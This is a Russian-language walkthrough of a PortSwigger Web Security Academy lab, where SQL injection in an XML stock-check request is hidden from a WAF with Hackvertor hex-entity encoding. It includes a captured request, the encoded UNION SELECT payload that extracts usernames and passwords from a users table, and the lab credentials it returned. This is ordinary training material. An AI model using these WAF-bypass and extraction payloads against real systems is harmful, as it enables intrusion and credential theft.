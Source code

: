 Эта лабораторная работа содержит уязвимость SQL-инъекции **в функции проверки запасов**. Результаты запроса возвращаются в ответе приложения, поэтому вы можете использовать атаку UNION для получения данных из других таблиц.

Брандмауэр веб-приложений (WAF) блокирует запросы, содержащие явные признаки атаки с помощью SQL-инъекции.

## Дано

База данных содержит `users` таблица, содержащая имена и пароли зарегистрированных пользователей.

## Задача

Зайти под администратора

# Разведка

- Функция проверки запасов
```
POST /product/stock HTTP/2
Host: 0a6e00e003f15c0e84650e11001c0094.web-security-academy.net
Cookie: session=HOahebfMBNoNYYSelKcSsXQ0btouZAkj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a6e00e003f15c0e84650e11001c0094.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a6e00e003f15c0e84650e11001c0094.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- При инъекции детектит и выводит "Attack detected"

- Пробуем обмануть кодировкой при помощи расширения в burp Hackvertor
До
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
После
```
<@hex_entities>UNION SELECT NULL<@/hex_entities>
```


# Атака

- Так как поддерживается 1 лишь значение мы объединим столбцы 
```
<@hex_entities>	1 UNION SELECT username || '~' || password FROM users
<@/hex_entities>
```
Ответ
```
carlos~1o71rxy6wfm8jpa9k1sh
wiener~17hdedxqvbmj63iam25v
administrator~ceszi4ld8mbaqy57qpad
160 units
```

